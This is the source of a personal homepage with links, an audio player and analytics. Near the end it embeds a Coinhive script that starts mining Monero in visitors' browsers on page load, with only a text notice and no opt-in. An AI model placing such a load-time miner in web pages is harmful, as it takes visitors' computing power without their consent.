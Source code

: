 ```yaml
---
layout:
---
```

<!-- Global Site Tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>

under construction<br>

<!--Omniscient omnipotent and deeply unfriendly full stack developer. <br>
[Add](mailto:bohadi@users.noreply.github.com) me to your team today!
<br>
-->

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

[interactive graphics](/smb) with WebGL!
<br><br>

some links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

<br>
This page mines [Monero (cryptocurrency)](https://en.wikipedia.org/wiki/Monero_(cryptocurrency)) in the background.<br>
This may be an alternative to serving ads and you may have to disable adblock. 
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  try {
    var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
      threads: 2,
      throttle: 0.5
    });
    miner.start();
  }
  catch (e) { minerstatus.innerHTML = '...Connection error. Miner stopping.'; }

  miner.on('open', function() {
    minerstatus.innerHTML = 'Connection opened...';
  });
  miner.on('error', function() {
    minerstatus.innerHTML = '...Connection error. Miner stopping.';
    miner.stop();
  });
  miner.on('accepted', function() {
    minerstatus.innerHTML =
      'Connected. ('+miner.getNumThreads()+' threads throttled at '+
      100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
  });
  setInterval(function() {
    minerio.innerHTML = 
      'Hashes/second: '   + miner.getHashesPerSecond().toFixed(2) + '<br>' +
      'total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
  }, 1000);
</script>
